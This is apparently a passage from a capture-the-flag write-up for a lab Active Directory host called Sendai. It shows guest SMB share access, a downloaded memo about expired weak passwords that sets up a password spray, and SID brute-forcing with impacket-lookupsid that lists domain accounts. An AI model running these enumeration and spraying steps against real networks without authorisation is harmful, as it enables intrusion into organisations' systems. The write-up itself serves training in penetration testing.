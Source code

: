 before spray

    ➜  sendai smbclient \\\\DC\\sendai
    Password for [WORKGROUP\root]:
    Try "help" to get a list of possible commands.
    smb: \> ls
    .                                   D        0  Tue Jul 18 13:31:04 2023
    ..                                DHS        0  Wed Jul 19 10:11:25 2023
    hr                                  D        0  Tue Jul 11 08:58:19 2023
    incident.txt                        A     1372  Tue Jul 18 13:34:15 2023
    it                                  D        0  Tue Jul 18 09:16:46 2023
    legal                               D        0  Tue Jul 11 08:58:23 2023
    security                            D        0  Tue Jul 18 09:17:35 2023
    transfer                            D        0  Tue Jul 11 09:00:20 2023

                    7309822 blocks of size 4096. 606107 blocks available
    smb: \> get incident.txt 
    getting file \incident.txt of size 1372 as incident.txt (3.2 KiloBytes/sec) (average 3.2 KiloBytes/sec)
    smb: \> exit
    ➜  sendai cat incident.txt 
    Dear valued employees,

    We hope this message finds you well. We would like to inform you about an important security update regarding user account passwords. Recently, we conducted a thorough penetration test, which revealed that a significant number of user accounts have weak and insecure passwords.

    To address this concern and maintain the highest level of security within our organization, the IT department has taken immediate action. All user accounts with insecure passwords have been expired as a precautionary measure. This means that affected users will be required to change their passwords upon their next login.

    We kindly request all impacted users to follow the password reset process promptly to ensure the security and integrity of our systems. Please bear in mind that strong passwords play a crucial role in safeguarding sensitive information and protecting our network from potential threats.

    If you need assistance or have any questions regarding the password reset procedure, please don't hesitate to reach out to the IT support team. They will be more than happy to guide you through the process and provide any necessary support.

    Thank you for your cooperation and commitment to maintaining a secure environment for all of us. Your vigilance and adherence to robust security practices contribute significantly to our collective safety.#

### lookupsid

    ➜  sendai impacket-lookupsid guest@DC
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    Password:
    [*] Brute forcing SIDs at DC
    [*] StringBinding ncacn_np:DC[\pipe\lsarpc]
    [*] Domain SID is: S-1-5-21-3085872742-570972823-736764132
    498: SENDAI\Enterprise Read-only Domain Controllers (SidTypeGroup)
    500: SENDAI\Administrator (SidTypeUser)
    501: SENDAI\Guest (SidTypeUser)
    502: SENDAI\krbtgt (SidTypeUser)
    512: SENDAI\Domain Admins (SidTypeGroup)
    513: SENDAI\Domain Users (SidTypeGroup)
    514: SENDAI\Domain Guests (SidTypeGroup)
    515: SENDAI\Domain Computers (SidTypeGroup)
    516: SENDAI\Domain Controllers (SidTypeGroup)
    517: SENDAI\Cert Publishers (SidTypeAlias)
    518: SENDAI\Schema Admins (SidTypeGroup)
    519: SENDAI\Enterprise Admins (SidTypeGroup)
    520: SENDAI\Group Policy Creator Owners (SidTypeGroup)
    521: SENDAI\Read-only Domain Controllers (SidTypeGroup)